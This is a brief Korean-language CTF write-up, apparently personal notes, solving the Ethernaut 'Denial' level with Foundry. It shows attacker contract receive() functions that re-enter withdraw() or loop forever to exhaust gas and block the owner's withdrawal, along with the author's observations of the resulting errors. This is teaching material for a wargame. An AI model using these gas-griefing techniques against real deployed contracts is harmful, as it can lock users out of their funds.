

# Ethernaut Foundry로 풀기

## 20. Denial




만약 계약에 아직 자금이 남아 있고 (거래 가스 한도가 1M 이하인 상황에서) 소유자가 withdraw()를 호출할 때 그들이 자금을 인출하지 못하도록 만들 수 있다면, 이 레벨을 클리어하게 됩니다


```
    receive() external payable {
        denial.withdraw();
    }
```
처음에 이렇게 했음 => 이거는 트랜잭션 자체는 실행이되는데 
계속 반복하다가 어느순간 이후로는 안되는것

```
    receive() external payable {
        while (true) {}
    }
```
이거는 여기 코드에 들어온순간 무한루프에 빠져서 끝이 안남.
그러다가 Transaction dropped from the mempool 에러가 뜸.


```
(bool success, ) = partner.call{value: amountToSend}("");
require(success);
```
이렇게 하니까 out of gas 로 revert뜸. 


참고 : https://www.reddit.com/r/ethereum/comments/3jg4ej/what_happens_when_you_put_an_infinite_loop_in_a/